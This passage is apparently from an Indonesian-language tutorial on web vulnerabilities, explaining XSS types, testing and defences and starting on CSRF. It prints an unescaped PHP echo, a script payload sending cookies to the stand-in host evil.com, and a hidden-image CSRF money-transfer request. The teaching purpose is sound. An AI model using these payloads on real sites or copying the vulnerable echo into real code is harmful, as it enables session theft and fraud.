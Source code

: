 ## 2. XSS (Cross-Site Scripting): Si Tukang Nyolong Cookie 🍪

### Apa itu XSS?
XSS itu serangan dimana hacker nyisipin script jahat (biasanya JavaScript) ke dalam website kamu. Scriptnya akan ke-execute di browser user yang buka website kamu.

### Tipe-tipe XSS
1. Stored XSS: Script jahat disimpan di database
2. Reflected XSS: Script jahat ada di URL atau form submission
3. DOM-based XSS: Script jahat dieksekusi langsung di client-side

### Contoh XSS
Misalnya, ada form komentar yang gak di-sanitize:
```html
<div>Komentar: <?php echo $_GET['komentar']; ?></div>
```

Hacker bisa input:
```html
<script>document.location='http://evil.com/steal.php?cookie='+document.cookie</script>
```

### Cara Ngetes
1. Coba masukin script sederhana ke semua input (misal: `<script>alert('XSS')</script>`)
2. Pake tools kaya XSS Hunter buat otomatis deteksi
3. Cek gimana aplikasi nge-render user-generated content

### Cara Ngamanin
1. Selalu escape atau encode output
2. Implement Content Security Policy (CSP)
3. Pake HttpOnly flag buat cookies penting

## 3. CSRF (Cross-Site Request Forgery): Si Tukang Nipu User 🎭

### Apa itu CSRF?
CSRF itu serangan dimana hacker maksa user buat ngelakuin aksi yang gak diinginkan di website yang user udah login. Ini bisa terjadi karena website target gak ngecek asal request dengan bener.

### Contoh CSRF
Misalnya, ada fitur transfer uang dengan URL:
```
https://bank.com/transfer?to=1234&amount=1000
```

Hacker bisa bikin halaman dengan gambar tersembunyi:
```html
<img src="https://bank.com/transfer?to=hacker&amount=1000000" width="0" height="0" />
```
